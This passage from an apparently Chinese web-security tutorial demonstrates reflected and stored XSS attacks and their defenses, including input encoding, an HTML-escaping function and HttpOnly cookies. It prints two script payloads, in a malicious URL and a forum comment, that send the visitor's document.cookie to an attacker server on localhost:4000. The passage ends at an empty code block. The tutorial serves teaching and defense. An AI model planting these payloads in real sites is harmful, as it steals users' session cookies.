 运行上面的代码，然后打开访问下面的恶意链接：

```
http://localhost:3000/movies?q=功夫熊猫<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

可以看到，用户的 Cookie 被发送到了攻击者的服务器。

### 防御方案

造成反射型 XSS 攻击的原因就是服务端没过滤，所以解决方案也很简单，就是在服务器对用户输入进行过滤，过滤方案一般有很多，例如直接用 `encodeURIComponent` 对查询参数进行过滤：

```
const tpl = req.query.q  ? `<h3>「${encodeURIComponent(req.query.q)}」的搜索结果为：</h3>${Array(30).fill('x')}`  : `请输入搜索的电影`
```

还有一种方式是写一个函数替换掉那些 `<`、`&` 等特殊字符：

```
function encodeHTML(str) {  return str  .replace(/&/g,'&amp;')  .replace(/"/g,'&quot;')  .replace(/'/g,'&apos;')  .replace(/</g,'&lt;')  .replace(/>/g,'&gt;')}
```

另外，如果后端登录验证是基于 Cookie 的话，一定要设置其属性为 HttpOnly，这样攻击者无法利用 JS 脚本获取到 Cookie 了。

## 存储型 XSS 攻防实战

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

### 攻击案例

假如在某网站上有一篇爆款文章：

```
https://xxx.com/articles/1
```

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```
文章写的真棒！<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！下面是完整的 `Node.js` 服务端源码：

```
```
